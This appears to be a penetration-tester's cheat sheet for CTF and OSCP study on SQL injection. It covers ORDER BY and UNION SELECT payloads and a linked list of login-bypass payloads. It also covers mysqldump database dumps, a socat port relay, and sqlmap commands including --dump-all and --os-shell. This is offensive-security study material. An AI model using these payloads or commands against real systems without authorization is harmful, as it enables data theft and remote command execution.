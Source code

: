 # sqli basic

## Auth bypass

[iamkashz/ctf-scripts/auth-bypass-sqli.txt](https://github.com/iamkashz/ctf-scripts/blob/main/auth-bypass-sqli.txt)

## Tips

```bash
# when error; available columns = N-1
ORDER BY <N>--

# union [all] select 
UNION [ALL] SELECT 1,2,3,4-- -
UNION [ALL] SELECT NULL,NULL,NULL,NULL-- -
```

## Using mysql-client

```bash
mysql -h <host-ip> [-P PORT]-u <username> -p [-e <SQL-QUERY-TO-RUN>]

mysqldump -u <user> -p <DB-name> > dump.mysql
mysqldump -u <user> -p --all-databases > dump.mysql
```

## sqlite3

```bash
# to invoke SQLite
sqlite3 <db.dump>

# to find tables
sqlite> .tables

# to check schema for table
sqlite> PRAGMA table_info(<table-name>);

# Ctrl+D to break out
```

## Start Mysql on kali

```bash
service mysql [status | start | stop]
/etc/mysql/mariadb.conf.d/50-server.cnf

CREATE USER 'kashz'@'localhost' IDENTIFIED BY 'kali1';
GRANT ALL ON *.* TO 'kashz'@'localhost';
flush privileges;

# listen on 3306 from tun0 IP and route to 3306 via localhost
$ socat TCP-LISTEN:3306,fork,bind=10.10.16.161 TCP:127.0.0.1:3306
```

## SQLMAP (DO NOT USE IN OSCP)

```bash
# method: POST
# capture request via burp > sql.txt

sqlmap -r <sql.txt> -p <paramter-to-check> <flag> [--proxy=http://127.0.0.1:808]

# --dbms=<mysql> or other.
# --dbs; -D <db>
# --tables; -T <table>
# --dump-all
# --os-shell
```
